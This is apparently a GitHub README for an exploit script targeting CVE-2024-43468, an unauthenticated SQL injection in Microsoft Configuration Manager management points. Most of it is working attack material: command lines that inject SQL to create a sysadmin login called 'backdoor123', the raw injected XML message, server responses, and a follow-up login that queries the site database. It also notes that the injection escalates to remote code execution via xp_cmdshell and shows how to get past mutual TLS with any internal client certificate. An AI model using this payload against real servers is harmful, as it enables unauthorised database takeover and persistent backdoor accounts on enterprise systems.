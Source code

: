 # Microsoft Configuration Manager (ConfigMgr / SCCM) 2403 Unauthenticated SQL injections (CVE-2024-43468) exploit

This script exploits the [CVE-2024-43468](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-43468) that allows an unauthenticated attacker, with network access to a Management Point, to execute arbitrary SQL queries on the site database.

As queries are executed as the MP machine account identity, granted the sysadmin role, it is trivial to escalate the SQL injection to remote code execution (with `xp_cmdshell` for example).

When KB29166583 is missing, all the following Microsoft Configuration Manager versions are vulnerable:
* < 2403 (5.00.9128.1024)
* < 2309 (5.00.9122.1033)
* < 2303 (5.00.9106.1037)
* <= 2211 (*)

For more details, please refer to the associated advisory available at https://www.synacktiv.com/advisories/microsoft-configuration-manager-configmgr-2403-unauthenticated-sql-injections

## Requirements

* In some cases, when the management point is configured with *HTTPS Only* communication mode, a PKI certificate is required to perform mutual TLS authentication against the vulnerable HTTP service. Any certificate issued by the internal PKI with the *Client Authentication* purpose will work.

## Usage

```bash
$ python3 CVE-2024-43468.py --help
usage: CVE-2024-43468.py [-h] -t TARGET -sql SQL [-machineid MACHINEID] -k KEY -c CERT

SCCM LocationMgr (MP_Location) Unauthenticated SQL injections - CVE-2024-43468

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target (http[s]://sccm-mp.local/)
  -sql SQL              Query to execute through the MachineID SQL injection (e.g create login user123 with password = 'p4sswOrd' ; exec master.dbo.sp_addsrvrolemember 'user123', 'sysadmin' )
  -machineid MACHINEID  A valid MachineID for the second SQL injection via ContentID
  -k KEY, --key KEY     Private key file for mutual TLS
  -c CERT, --cert CERT  Certificate file for mutual TLS

```

- Create a new administrator user
```bash
$ python3 CVE-2024-43468.py -t http://sccm.local -sql "create login backdoor123 with password = 'P@sswOrd1'; exec master.dbo.sp_addsrvrolemember 'backdoor123', 'sysadmin'"
>>>> Header <<<<<
<Msg ReplyCompression="zlib" SchemaVersion="1.1"><Body Type="ByteRange" Length="556" Offset="0" /><CorrelationID>{00000000-0000-0000-0000-000000000000}</CorrelationID><Hooks><Hook3 Name="zlib-compress" /></Hooks><ID>{00000000-0000-0000-0000-000000000000}</ID><Payload Type="inline"/><Priority>0</Priority><Protocol>http</Protocol><ReplyMode>Sync</ReplyMode><ReplyTo>direct:dummyEndpoint:LS_ReplyLocations</ReplyTo><TargetAddress>mp:[http]MP_LocationManager</TargetAddress><TargetEndpoint>MP_LocationManager</TargetEndpoint><TargetHost>http://sccm.local</TargetHost><Timeout>60000</Timeout><SourceID>GUID:3b47a05a-db2e-40ef-8c77-cf29dac2ca1e'; create login backdoor123 with password = 'P@sswOrd1'; exec master.dbo.sp_addsrvrolemember 'backdoor123', 'sysadmin' ; select '1 </SourceID></Msg>

>>>> Request <<<<<
<UpdateSFRequest><Package ID="UID:060cb19a-4dde-4c6a-b08b-7fee96c4824b" Version="1"></Package><ClientLocationInfo><BoundaryGroups><BoundaryGroup GroupID="1" GroupGUID="00000000-0000-0000-0000-000000000000" GroupFlag="0"/></BoundaryGroups></ClientLocationInfo></UpdateSFRequest>


>>>> Response : 200 <<<<<
--aAbBcCdDv1234567890VxXyYzZ
content-type: text/plain; charset=UTF-16

ÿþNoReply
--aAbBcCdDv1234567890VxXyYzZ--
```

- Afterwards, access the SCCM the database with the newly created administrator.
```bash
$ mssqlclient.py  -debug './backdoor123:P@sswOrd1'@sccm-db.local
SQL (backdoor123  dbo@master)> use CM_ABC
SQL (backdoor123  dbo@CM_ABC)> select Name0 from v_R_System
Name0
------
DC
```


- Use mTLS in case the Management Point asks for a client certificate.
```bash
$ python3 CVE-2024-43468.py -t https://sccm.local -sql "..."
[...]
>>>> Response : 403 Client certificate required <<<<<
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">

$ python3 CVE-2024-43468.py -k any_client1.key -c any_client1.pem -t https://sccm.local -sql "..."
>>>> Response : 200 <<<<<
--aAbBcCdDv1234567890VxXyYzZ
content-type: text/plain; charset=UTF-16

ÿþNoReply
--aAbBcCdDv1234567890VxXyYzZ--
```



## References
* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-43468